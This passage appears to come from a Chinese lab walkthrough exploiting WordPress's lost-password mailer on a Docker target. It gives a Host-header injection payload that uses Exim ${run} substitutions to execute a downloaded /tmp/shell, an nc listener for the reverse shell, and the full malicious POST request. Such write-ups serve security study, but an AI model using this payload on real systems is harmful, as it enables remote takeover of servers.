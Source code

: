 

#### 收到请求记录

请求效果如下，攻击机可看到一条请求记录

![image-20241105173618687](https://image.201068.xyz/assets/11.Wordpress/image-20241105173618687.png)

![image-20241105173917936](https://image.201068.xyz/assets/11.Wordpress/image-20241105173917936.png)

#### 查看shell文件

进入靶机内查看 `/tmp`下是否存在shell文件，说明成功将shell下载到靶机中。

```bash
docker ps -s
docker exec -it  /bin/bash
```

![image-20241105125438671](https://image.201068.xyz/assets/11.Wordpress/image-20241105125438671.png)

#### nc监听

在攻击机中启动一个nc监听并等待反弹shell

```bash
nc -nvlp 20000
```

![image-20241105174433797](https://image.201068.xyz/assets/11.Wordpress/image-20241105174433797.png)

#### 更改host内容 执行恶意文件

再次使用抓包工具，更改host内容为并重放请求。

```bash
aa(any -froot@localhost -be ${run{${substr{0}{1}{$spool_directory}}bin${substr{0}{1}{$spool_directory}}bash${substr{10}{1}{$tod_log}}${substr{0}{1}{$spool_directory}}tmp${substr{0}{1}{$spool_directory}}shell}} null)
```

> 相当于
>
> /bin/bash /tmp/shell

![image-20241105174804254](https://image.201068.xyz/assets/11.Wordpress/image-20241105174804254.png)

```bash
POST /wp-login.php?action=lostpassword HTTP/1.1
Host: aa(any -froot@localhost -be ${run{${substr{0}{1}{$spool_directory}}bin${substr{0}{1}{$spool_directory}}bash${substr{10}{1}{$tod_log}}${substr{0}{1}{$spool_directory}}tmp${substr{0}{1}{$spool_directory}}shell}} null)
Content-Length: 85
Cache-Control: max-age=0
Origin: http://192.168.70.4:6081
Content-Type: application/x-www-form-urlencoded
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/130.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Referer: http://192.168.70.4:6081/wp-login.php?action=lostpassword
Accept-Encoding: gzip, deflate, br
Accept-Language: zh-CN,zh;q=0.9
```